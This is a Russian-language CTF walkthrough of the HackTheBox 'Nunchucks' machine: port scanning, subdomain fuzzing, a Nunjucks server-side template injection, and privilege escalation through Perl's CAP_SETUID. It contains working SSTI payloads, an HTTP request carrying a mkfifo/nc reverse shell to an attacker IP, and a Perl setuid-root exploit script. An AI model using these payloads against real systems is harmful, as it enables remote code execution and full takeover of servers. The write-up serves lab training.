


# Nunchucks (Linux, Easy)

 (1).png>)

### Содержание:

Nunchucks - легкая машина, название которой уже дает отсылку на шаблонизатор, а где шаблонизаторы - там SSTI. Просканировав порты, мы увидим ssh, http и https. Затем профаззим поддомены и найдем тот, который использует шаблонизатор Nunchucks. Загуглив для него вулны, найдем SSTI-эксплоит и получим реверс шелл. Затеем повысим наши привилегии в системе с помощью CAP\_SETUID perl'а.

### Сканируем порты с помощью nmap:

```bash
$ nmap -sC -sV 10.10.11.122 -oN nmap
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorse/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
```


Как бы я не пытался зарегистрироваться/залогиниться - не получалось. Фаззим поддомены:

```
$ gobuster vhost -u nunchucks.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 40
```

```
Found: store.nunchucks.htb
```

Нашли поддомен, вставляем его в наш конфиг:

```
$ sudo vim /etc/hosts
```

```
10.10.11.122 store.nunchucks.htb nunchucks.htb
```

### Эксплуатируем SSTI в Nunchucks:

.png>)

 (1) (1).png>)

На поддомене есть `SSTI(Server Side Template Injection)` уязвимость. Дальше `{{7*7}}` продвинуться не удавалось, но имя машины дает некоторый хинт. `Nunjucks` - это шаблонизатор для `Jinja2`, используемый для разработки веб-приложений на веб-фреймворках `Node.js`, таких как `Express` или `Connect`. Найдя [пэйлоад](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine), пытаемся его эксплуатировать:

```django
{{range.constructor("return global.process.mainModule.require('fs')")()}}
```

 (1).png>)

Чтобы эксплуатировать `RCE`, нужно поставить nc и запустить пэйлоад:

```
$ nc -nlvp 9999
```

Запрос с пэйлоадом в email:

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2RciWC895_oUpc9MqIt9QIx1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 189
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.36 9999 >/tmp/f')\")()}}"
}
```

.png>)

### Повышаем привилегии с помощью CAP\_SETUID + Perl

Для того, чтобы просканировать систему на уязвимости и мисконфиги, нужно:

* Скачать linpeas к себе:

```
$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

* Поднять python-сервер:

```
$ python3 -m http.server
```

Кстати, чтобы узнать свой локальный IP-адрес в VPN можно воспользоваться утилитой ip(ваш IP должен соответствовать интерфейсу tun0):

```
$ ip r | grep tun0
```

```
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.36
```

* На машину, которую нужно проверить, скачиваем linpeas с нашего веб-сервера и запускаем:

```
$ wget 10.10.16.36:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```



Linpeas запустился и очень много строк про конфиги машины, нам же нужна только эта строка:



Тут и содержится уязвимость(CAP\_SETUID): setuid и setgid являются флагами прав доступа в Unix, которые разрешают пользователям запускать исполняемые файлы с правами владельца или группы исполняемого файла. То есть можно без привилегий поменять себе идентификатор(uid) и стать рутом(у рута uid=0). Но это все можно сделать в одну команду и одной строкой, так как тут есть защита AppArmor. Поэтому нужно создать отдельный файл и записать в него вредоносный код:

```
$ touch exploit.pl
$ echo "#!/usr/bin/perl" >> exploit.pl
$ echo "use POSIX qw(setuid);" >> exploit.pl
$ echo "POSIX::setuid(0);" >> exploit.pl
$ echo 'exec "/bin/sh";' >> exploit.pl
$ chmod +x exploit.pl
```

.png>)
